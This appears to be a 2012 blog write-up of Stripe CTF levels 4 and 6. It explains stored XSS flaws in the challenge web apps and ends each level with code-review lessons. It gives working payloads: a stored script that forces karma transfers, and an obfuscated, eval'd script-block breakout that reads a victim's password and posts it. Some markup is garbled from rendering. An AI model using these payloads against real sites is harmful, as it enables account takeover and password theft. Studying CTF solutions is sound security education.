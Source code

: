 ```yaml
---
title: "Stripe CTF - XSS, CSRF (Levels 4 & 6)"
date: 2012-09-10
---
```

<div xmlns="http://www.w3.org/1999/xhtml"><div><p><a href="https://stripe-ctf.com/levels/4">Level 4</a> and <a href="https://stripe-ctf.com/levels/6">level 6</a> of the Stripe CTF had solutions around XSS.
  </p><h3>
    Level 4
  </h3><h4>
    Code
  </h4><pre><code>&gt; Registered Users <br /></code></pre><ul><br />
    &lt;%@registered_users.each do |user| %&gt;<br />
    &lt;%last_active = user[:last_active].strftime(&amp;apos;%H:%M:%S UTC&amp;apos;) %&gt;<br />
    &lt;%if @trusts_me.include?(user[:username]) %&gt;<br /><li><code><br />
      &lt;%= user[:username] %&gt;<br />
      (password: &lt;%= user[:password] %&gt;, last active &lt;%= last_active %&gt;)<br /></code></li><h4>
      Issue
    </h4><p>
      The level 4 web application lets you transfer karma to another user and in doing so you are also forced to expose your password to that user. The main user page displays a list of users who
      have transfered karma to you along with their password. The password is not HTML encoded so we can inject HTML into that user's browser. For instance, we could create an account with the
      following HTML as the password which will result in XSS with that HTML:
    </p><pre><code><script><![CDATA[
jQuery.post("https://level04-2.stripe-ctf.com/user-kxyiuircqs/transfer", {"to": "l", "amount": 1});
]]></script></code></pre>This HTML runs script that uses jQuery to post to the transfer URI resulting in a transfer of karma from the attacked user to the attacker user, and also the attacked user's
password.
    <h4>
      Notes
    </h4><p>
      Code review red flags in this case included lack of encoding when using user controlled content to create HTML content, storing passwords in plain text in the database, and displaying passwords
      generally. By design the web app shows users passwords which is a very bad idea.
    </p><h3>
      Level 6
    </h3><h4>
      Code
    </h4><pre><code><script><![CDATA[
 <br />    var username = "<%= @username %>"; <br />    var post_data = <%= @posts.to_json %>; <br /><br />    function escapeHTML(val) { <br />       return $(&amp;apos;<div/>&amp;apos;).text(val).html();<br />    } <br /><br />    function addPost(item) {<br />       var new_element = &amp;apos;<tr><th>&amp;apos; + escapeHTML(item[&amp;apos;user&amp;apos;]) + <br />          &amp;apos;</th><td><h4>&amp;apos; + escapeHTML(item[&amp;apos;title&amp;apos;]) + &amp;apos;</h4>&amp;apos; + <br />          escapeHTML(item[&amp;apos;body&amp;apos;]) + &amp;apos;</td></tr>&amp;apos;; $(&amp;apos;#posts > tbody:last&amp;apos;).prepend(new_element); <br />    } <br />    <br />    for(var i = 0; i < post_data.length; i++) { <br />       var item = post_data[i]; <br />       addPost(item); <br />    }; <br />
]]></script><br /><br />...<br /><br />    def self.safe_insert(table, key_values)<br />      key_values.each do |key, value|<br />        # Just in case people try to exfiltrate<br />        # level07-password-holder's password<br />        if value.kind_of?(String) &amp;&amp;<br />            (value.include?('"') || value.include?("'"))<br />          raise "Value has unsafe characters"<br />        end<br />      end<br /><br />      conn[table].insert(key_values)<br />    end</code></pre><h4>
      Issue
    </h4><p>
      This web app does a much better job than the level 4 app with HTML injection. They use encoding whenever creating HTML using user controlled data, however they don't use encoding when injecting
      JSON data into script (see post_data initialization above). This JSON data is the last five most recent messages sent on the app so we get to inject script directly. However, the system also
      ensures that no strings we write contains single or double quotes so we can't get out of the string in the JSON data directly. As it turns out, HTML lets you jump out of a script block using no
      matter where you are in script. For instance, in the middle of a value in some JSON data we can jump out of script. But we still want to run script, so we can jump right back in. So the frame
      so far for the message we're going to post is the following:
    </p><pre><script><![CDATA[
 our new code goes here 
]]></script><script><![CDATA[
var post_data = [];//</pre></code>Because we can't use quotes, actually running script takes some creativity.  I decided to percent-encode my script so quotes don't show up directly, represent this as a regular expression literal so I don't have to use quotes and to eval this script after decoding. There's likely plenty of other ways to get around lack of quotes.<code><pre>var code = /percent-encoded script here/.toString();<br />eval(decodeURIComponent(code.substring(1, code.length - 1))); </pre></code>Then the script I actually encode gets the password from the user-info page (which includes password), regexes the password out, and posts it as a message:<code><pre>jQuery.get("https://level06-2.stripe-ctf.com/user-nhboioztch/user_info").then(function(body) {<br />var password = /Password:<\/th>[^>]*>([^<]*)/.exec(body)[1];<br />var encPassword = "";<br />for (var idx = 0; idx < password.length; ++idx) {<br /> encPassword += "%";<br /> encPassword += password.charCodeAt(idx).toString(16);<br />}<br /><br />$("#content").val(encPassword);<br />$("#title").val("password");<br />document.getElementsByTagName("form")[0].submit();<br />});<br /></pre></code>Of course since messages can't include quotes, I have to encode the password before posting it as a message.</p><p>Altogether now here's my message:<code><pre>
]]></script><script><![CDATA[
var code = /%6A%51%75%65%72%79%2E%67%65%74%28%22%68%74%74%70%73%3A%2F%2F%6C%65%76%65%6C%30%36%2D%32%2E%73%74%72%69%70%65%2D%63%74%66%2E%63%6F%6D%2F%75%73%65%72%2D%6E%68%62%6F%69%6F%7A%74%63%68%2F%75%73%65%72%5F%69%6E%66%6F%22%29%2E%74%68%65%6E%28%66%75%6E%63%74%69%6F%6E%28%62%6F%64%79%29%20%7B%0A%76%61%72%20%70%61%73%73%77%6F%72%64%20%3D%20%2F%50%61%73%73%77%6F%72%64%3A%3C%5C%2F%74%68%3E%5B%5E%3E%5D%2A%3E%28%5B%5E%3C%5D%2A%29%2F%2E%65%78%65%63%28%62%6F%64%79%29%5B%31%5D%3B%0A%76%61%72%20%65%6E%63%50%61%73%73%77%6F%72%64%20%3D%20%22%22%3B%0A%66%6F%72%20%28%76%61%72%20%69%64%78%20%3D%20%30%3B%20%69%64%78%20%3C%20%70%61%73%73%77%6F%72%64%2E%6C%65%6E%67%74%68%3B%20%2B%2B%69%64%78%29%20%7B%0A%09%65%6E%63%50%61%73%73%77%6F%72%64%20%2B%3D%20%22%25%22%3B%0A%09%65%6E%63%50%61%73%73%77%6F%72%64%20%2B%3D%20%70%61%73%73%77%6F%72%64%2E%63%68%61%72%43%6F%64%65%41%74%28%69%64%78%29%2E%74%6F%53%74%72%69%6E%67%28%31%36%29%3B%0A%7D%0A%0A%24%28%22%23%63%6F%6E%74%65%6E%74%22%29%2E%76%61%6C%28%65%6E%63%50%61%73%73%77%6F%72%64%29%3B%0A%24%28%22%23%74%69%74%6C%65%22%29%2E%76%61%6C%28%22%70%61%73%73%77%6F%72%64%22%29%3B%0A%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%54%61%67%4E%61%6D%65%28%22%66%6F%72%6D%22%29%5B%30%5D%2E%73%75%62%6D%69%74%28%29%3B%0A%7D%29%3B/.toString(); eval(decodeURIComponent(code.substring(1, code.length - 1))); 
]]></script><script><![CDATA[
var post_data= [];//</pre></code></p><h4>Notes</h4><p>Code review red flags included storing the password in plain text, displaying the password in an HTML page, lack of encoding when generating script on the server side, and a deny list of dangerous characters (quotes). Generally folks should use allow lists not deny lists.  You'll always forget something from your deny list or the platform will change out from under you adding new dangerous entries you didn't consider in your deny list.  In this case an allow list probably also doesn't make as much sense as encoding correctly. The first issue I ran into, was when posting the password I forgot to encode and the password did contain quotes. The second issue I ran into was that my injected script posts a message which results in a page refresh, which results in my injected script running again. This continues five times until my injected script message is pushed off the end. I had to be patient waiting for the target attacked user to login before I would refresh and post my own password.</p></div>
]]></script></pre></ul></div></div>
